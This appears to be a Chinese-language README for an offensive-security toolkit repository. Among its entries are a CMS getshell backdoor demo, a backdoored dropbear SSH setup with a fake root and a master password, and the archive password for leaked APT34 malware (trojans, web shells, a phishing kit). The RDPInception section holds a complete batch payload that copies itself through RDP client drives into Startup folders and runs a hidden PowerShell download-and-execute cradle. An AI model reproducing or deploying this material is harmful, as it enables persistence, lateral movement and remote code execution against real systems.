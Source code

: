 # 
## siteserver cms 5.X vuln demo
SiteServer CMS remote download getshell `demo.zip`下载的后门文件
## 修改OpenSSH源代码记录用户详细操作日志
openssh*.tar.gz 修改后的文件编译安装即可，*.docx为修改说明。
+ https://www.zhoufengjie.cn/?p=385
+ https://www.zhoufengjie.cn/?p=174

## dropbear
+ FAKE_ROOT: #define 强制伪"root"uid解析，即使目标系统无法解析用户名。
+ ALT_SHELL: #define 假冒root用户使用备用shell而不是/bin/sh登陆。
+ Server Master Password: 在dropbear命令行上指定-Y以指定要进行身份验证的“主”密码，当没有root用户时，对FAKE_ROOT很有用，因此没有root密码。
+ Forced Home Directory: 在dropbear命令行上指定-H，以使用户使用指定的主目录登录。当没有root用户时，对FAKE_ROOT很有用，因此没有root主目录。
```
wget https://matt.ucc.asn.au/dropbear/releases/dropbear-2018.76.tar.bz2
tar xjf dropbear-2018.76.tar.bz2
cd dropbear-2018.76
./configure --disable-zlib
make
make install
mkdir /etc/dropbear
/usr/local/bin/dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key
/usr/local/bin/dropbearkey -t rsa -s 4096 -f /etc/dropbear/dropbear_rsa_host_key
/usr/local/sbin/dropbear -p 6666
```

## APT34-Leak

Pass: `vJrqJeJo2n005FF*`

+ Glimpse（Palo Alto Networks命名为BondUpdater的基于PowerShell的木马的新版本）
+ PoisonFrog（旧版BondUpdater）
+ HyperShell（Palo Alto Networks称之为TwoFace的网络外壳）
+ HighShell（另一个Web shell）
+ Fox Panel（网络钓鱼套件）
+ Webmask（DNS隧道，DNSpionage背后的主要工具）

## RDPInception
Bat To Exe转换器添加如下代码保存`windows.bat`
```
@echo off

echo Updating Windows ...

@echo off
timeout 1 >nul 2>&1

mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1

copy windows.exe C:\temp >nul 2>&1
copy windows.exe \\tsclient\c\temp >nul 2>&1

del /q %TEMP%\temp_00.txt >nul 2>&1

set dirs=dir /a:d /b /s C:\users\*Startup*
set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*

echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
echo|%dirs2%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"

for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (
	copy windows.exe "%%a" >nul 2>&1
	copy C:\temp\windows.exe "%%a" >nul 2>&1
	copy \\tsclient\c\temp\windows.exe "%%a" >nul 2>&1
)

del /q %TEMP%\temp_00.txt >nul 2>&1

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x'))"
```
选项：

+ 工作目录：当前
+ EXE格式：32位windows隐藏
+ 嵌入式提取到：临时目录

转换bat保存为`windows.exe`,编辑`windows.bat`嵌入添加`windows.exe`重新转换为最终成品windows.exe

## kali_beef_start
Kali Beef Framework Start Script

## Runtime Broker

+ https://share.dmca.gripe/PcH4etGtRBxAHqlW.txt	Linux
+ https://share.dmca.gripe/VB9D9enog03XrsIi.txt	Winndwos online
+ https://share.dmca.gripe/NzwQ12XcKipA3Ie6.txt	Winndwos offine
+ https://share.dmca.gripe/0WfFxN2u1qhekMRS.txt	Windows online dll

## SambaCry漏洞扫描程序
存档的密码:`sambacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-sambacry/

## WannaCry漏洞扫描程序MS17-010
存档的密码:`wannacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-ms17-010/

## kali开启SSH服务，允许root登陆
```
systemctl enable ssh.service	//开启SSH服务开机启动
```
`nano /etc/ssh/sshd_config`允许root登陆
```
#PermitRootLogin prohibit-password
PermitRootLogin yes
#PasswordAuthentication yes
PasswordAuthentication yes
```
## kali设置固定ip
1.首先把kali虚拟机的**网络适配器**更改为**桥接模式**直连物理网络。<br>
2.查看自己主机的（是自己真实电脑的不是虚拟机）ip地址，网关，网段。<br>
3.修改`nano /etc/network/interfaces`文件，添加如下内容
```
auto eth0	//自动启动eth0网卡
iface eth0 inet static	//静态获取IP
address x.x.x.x	//固定ip地址，根据实际情况填写
netmask x.x.x.x	//子网掩码，根据实际情况填写
gateway x.x.x.x	//网关，根据实际情况填写
```
4.修改`nano /etc/resolv.conf`文件添加dns
```
nameserver 114.114.114.114
nameserver 8.8.8.8
```
5.重启系统或`/etc/init.d/networking restart`重启网络服务

## Puzlbox PHP模糊测试工具。
它通过执行动态程序分析来扫描几个不同的漏洞.目前正在进行以下测试：

+ 任意命令执行
+ 任意文件读/写/更改/重命名/删除
+ 本地文件包含（LFI）
+ 任意PHP执行
+ SQL注入
+ 反射的跨站点脚本（XSS）

对于每个测试，将特定有效负载（伪造请求）发送到Web应用程序，并分析来自服务器的响应。根据结果​​（HTTP响应代码，错误，......），测试将被解释为正面（发现潜在的漏洞）或负面。所有肯定测试都出现在生成的报告中，并带有已发送的有效负载

puzlbox [-s Server（默认本地主机）] [-m扫描模式（默认CFLPSX）] [绝对Web根目录] [-n No Unhook] [应用程序路径（以逗号分隔）]
